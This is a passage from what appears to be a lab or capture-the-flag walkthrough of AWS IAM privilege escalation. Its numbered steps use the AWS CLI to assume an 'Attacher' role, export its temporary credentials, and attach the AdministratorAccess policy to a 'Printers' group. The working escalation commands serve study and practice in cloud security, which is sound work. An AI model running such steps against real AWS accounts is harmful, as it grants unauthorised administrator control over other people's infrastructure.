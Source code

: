 ```text
        ]
    }
}
```

Role policy says that the role Attacher has permission to attach any policy to the Printers group.

14. Identify the ARN of the AdministratorAccess policy:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-policies | grep 'AdministratorAccess'
            "PolicyName": "AdministratorAccess",
            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess",
            "PolicyName": "AdministratorAccess-Amplify",
            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess-Amplify",
            "PolicyName": "AWSAuditManagerAdministratorAccess",
            "Arn": "arn:aws:iam::aws:policy/AWSAuditManagerAdministratorAccess",
            "PolicyName": "AdministratorAccess-AWSElasticBeanstalk",
            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk",
```

15. Assume Attacher role:

```text
┌──(kali㉿kali)-[~]
└─$ aws sts assume-role --role-arn arn:aws:iam::527058492733:role/Attacher --role-session-name attacher_test
{
    "Credentials": {
        "AccessKeyId": "<access key id>",
        "SecretAccessKey": "<secret access key>",
        "SessionToken": "<session token>",
        "Expiration": "2023-05-11T11:03:51+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAXVNZCLU646LOFZYTU:attacher_test",
        "Arn": "arn:aws:sts::527058492733:assumed-role/Attacher/attacher_test"
    }
}
```

Make a note of Credentials and tokens.

16. Set the access key id, secret access key, and session token in environment variables:

```text
export AWS_ACCESS_KEY_ID=<access key id>
export AWS_SECRET_ACCESS_KEY=<secret access key>
export AWS_SESSION_TOKEN=<session token>
```

17. Attach AdministratorAccess role to Printers group:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
